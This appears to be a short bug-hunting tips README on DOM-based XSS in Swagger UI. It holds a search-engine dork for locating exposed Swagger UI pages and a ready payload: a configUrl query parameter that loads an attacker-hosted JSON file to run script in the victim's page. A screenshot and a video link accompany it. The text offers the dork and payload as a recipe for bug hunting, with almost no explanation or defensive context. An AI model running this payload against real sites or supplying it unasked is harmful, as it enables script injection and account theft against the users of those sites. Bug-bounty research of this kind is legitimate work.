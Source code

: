 # 🚀 DOM-based XSS on Swagger UI 

What is DOM-based XSS? In short DOM-Based These attacks typically occur when JavaScript takes input from a URL or other DOM element without validation, allowing the attacker to insert and execute malicious code in the victim's web page. # ⚡ Reference https://github.com/seanmarpo/webjars-swagger-xss


# ⚡ References
https://github.com/seanmarpo/webjars-swagger-xss


# 🔎 Dork
```
intitle:"Swagger UI" site:.
```


# 👨‍💻 Payload

```
?configUrl=https://xss.smarpo.com/test.json
```

# 🖼️ Screenshots 

<img src="https://raw.githubusercontent.com/randixploit/Bug-Hunting-Tips/refs/heads/main/Indonesia/Cross%20Site%20Scripting/DOM-based%20XSS%20pada%20Swagger%20UI/kmc_20250216_010023.png">


# 🎥 Video

[![Watch on YouTube](https://img.youtube.com/vi/dP2SHlghC0E/0.jpg)](https://youtu.be/dP2SHlghC0E)


Hope it's easy to understand 
